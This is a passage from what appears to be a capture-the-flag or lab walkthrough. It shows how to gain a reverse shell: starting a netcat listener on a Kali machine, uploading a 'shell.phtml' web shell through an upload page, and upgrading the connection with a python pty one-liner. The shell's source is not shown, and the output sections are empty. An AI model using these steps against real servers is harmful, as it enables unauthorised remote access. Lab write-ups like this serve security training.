


4.3 Deliver the exploit and get a Reverse Shell
1. On your Kali Machine open a “netcat” connection.
$ nc -nlvp 4444
2. Upload the file “shell.phtml” from the upload page.

3. On your Kali Machine you'll see there's a connection.
Output:

4. Get a PTY shell (Pseudo-terminal).
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ export TERM=xterm
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ export TERM=xterm
Output: